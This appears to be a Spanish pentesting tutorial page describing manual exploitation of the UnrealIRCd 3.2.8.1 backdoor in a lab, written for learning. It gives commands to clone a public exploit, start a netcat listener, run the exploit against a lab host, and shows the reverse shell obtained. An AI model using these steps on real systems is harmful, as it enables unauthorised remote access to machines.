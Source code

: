 # Explotacion manual de vulnerabilidades Host

Lo que vamos hacer aqui es explotar vulnerabilidades de forma manual, sin utilizar herramientas automatizadas como por ejemplo `metasploit` si no que vamos a investigar herramientas que puedan explotar estas vulnerabilidades de forma manual.

Vamos a empezar mirando el reporte que obtuvimos de `nmap` anteriormente y en concreto vamos a intentar explotar la vulnerabilidad que nos marca del puerto `6667` que se utiliza para comunicarse con otras personas como si fuera un `chat` pero en este caso esta `troyanizada` y para obtener mas informacion nos muestra el link.

<figure><img src="../../.gitbook/assets/image (46) (1).png" alt=""><figcaption></figcaption></figure>

URL = [Pagina de referencia](http://seclists.org/fulldisclosure/2010/Jun/277)

<figure><img src="../../.gitbook/assets/image (47) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos nos explica que esa version de aplicacion, contiene una `backdoor` (Puerta trasera) por lo que podemos aprovechar eso para obtener acceso a la maquina.

Si investigamos mas sobre esa vulnerabilidad `UnrealIRCd 3.2.8.1`, buscando un exploit del mismo, podremos encontrar un repositorio en `GitHub` sobre esto.

URL = [Exploit UnrealIRCd 3.2.8.1 GitHub](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)

Nos descargaremos el repositorio de la siguiente forma:

```shell
git clone https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor.git
cd UnrealIRCd-3.2.8.1-Backdoor/
```

Si investigamos mas a fondo como funciona el codigo por dentro, haciendo lo siguiente:

```shell
nano exploit.py
```

Podremos ver el codigo por dentro, vemos que nos va a pedir una serie de parametros para poder utilziarlos en el exploit, tambien vemos que realiza una consexion utilizando una serie de sockets con lo que le hayamos indicado para que asi pueda crear ese `backdoor`.

> ¿Que es un `exploit`?

Un `exploit` normalmente es una porcion de codigo fuente que puede estar escrita en practicamente cualquier lenguaje de programacion (`Python, C++, etc...`), lo que va hacer es tratar de aprovechar una vulnerabilidad y ofrecernos un beneficio (Conexion reversa a dicha maquina, dumpeo de informacion de credenciales, escalada de privilegios, etc...).

> ¿Que es un `payload`?

El `payload` es concretamente lo que se va a ejecutar el codigo que nosotros vamos a injectar una vez que ya hemos aprovechado ese fallo de seguridad para realizar la accion que nos interese.

Antes de ejecutarlo tendremos que poner nuestra IP y el puerto que queramos dentro del exploit:

<figure><img src="../../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>

Una vez echo esto lo guardamos y ahora si lo iriamos a ejecutar.

Por lo que podremos ejeuctar el exploit de la siguiente forma:

Primero estaremos a la escucha desde el puerto que le hayamos indicado antes en el script del exploit.

```shell
nc -lvnp <PORT>
```

Despues estando a la escucha, ejecutaremos el `exploit` para que nos de la shell a la escucha en la que estamos.

```shell
sudo chmod 777 exploit.py
./exploit.py 192.168.16.133 6667 -payload python
```

Info:

```
Exploit sent successfully!
```

Y en la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.16.128] from (UNKNOWN) [192.168.16.133] 35988
boba_fett@ubuntu:/opt/unrealircd/Unreal3.2$ whoami
whoami
boba_fett
boba_fett@ubuntu:/opt/unrealircd/Unreal3.2$ 
```

Por lo que vemos funciono todo correctamente y ya habremos obtenido una shell con la maquina victima `Linux`.
